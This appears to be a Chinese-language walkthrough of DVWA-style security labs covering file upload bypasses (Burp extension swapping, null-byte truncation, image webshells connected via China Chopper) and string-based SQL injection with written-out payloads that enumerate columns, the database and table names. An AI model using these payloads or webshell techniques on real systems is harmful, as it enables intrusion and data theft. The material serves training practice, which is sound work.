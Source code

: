 * medium

        源码分析

    [![DjewDK.jpg](https://s3.ax1x.com/2020/12/06/DjewDK.jpg)](https://imgchr.com/i/DjewDK)

        这次加了前端验证后缀验证，利用bp抓包改包就可以了，
        上传正确后缀的getshell文件，bp改后缀为php，即可上传成功

    [![DjerUe.jpg](https://s3.ax1x.com/2020/12/06/DjerUe.jpg)](https://imgchr.com/i/DjerUe)

        访问一下

    [![DjeXrV.jpg](https://s3.ax1x.com/2020/12/06/DjeXrV.jpg)](https://imgchr.com/i/DjeXrV)

        同理传小马，菜刀连接一下
        

* high

        源码分析
    [![Dj0C7D.jpg](https://s3.ax1x.com/2020/12/06/Dj0C7D.jpg)](https://imgchr.com/i/Dj0C7D)
    
    [![Dj089s.jpg](https://s3.ax1x.com/2020/12/06/Dj089s.jpg)](https://imgchr.com/i/Dj089s)

        strrpos(string,find,start)函数返回字符串find在另一字符串string中最后一次出现的位置，如果没有找到字符串则返回false，可选参数start规定在何处开始搜索。

        getimagesize(string filename)函数会通过读取文件头，返回图片的长、宽等信息，如果没有相关的图片文件头，函数会报错。可以看到，High级别的代码读取文件名中最后一个”.”后的字符串，期望通过文件名来限制文件类型，因此要求上传文件名形式必须是”*.jpg”、”*.jpeg” 、”*.png”之一。同时，getimagesize函数更是限制了上传文件的文件头必须为图像类型。

        采用00截断，php版本小于5.3.4

        所以可以采用图片马，菜刀连接

# SQL Injection

* high

        先猜解是什么类型的注入，单引号加永真式方法

        payload:

        -1' or '1'=1'

    [![DzV0nx.jpg](https://s3.ax1x.com/2020/12/07/DzV0nx.jpg)](https://imgchr.com/i/DzV0nx)

        可以正常显示，表示为字符型

        判断显示位

        payload:

        -1' order by 2 #正常显示
        -1' order by 3 #显示错误

        所以显示位为两位

        进行爆库:
        -1' union select 1,database() #

    [![DzZ02j.jpg](https://s3.ax1x.com/2020/12/07/DzZ02j.jpg)](https://imgchr.com/i/DzZ02j)

        爆表：
        -1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
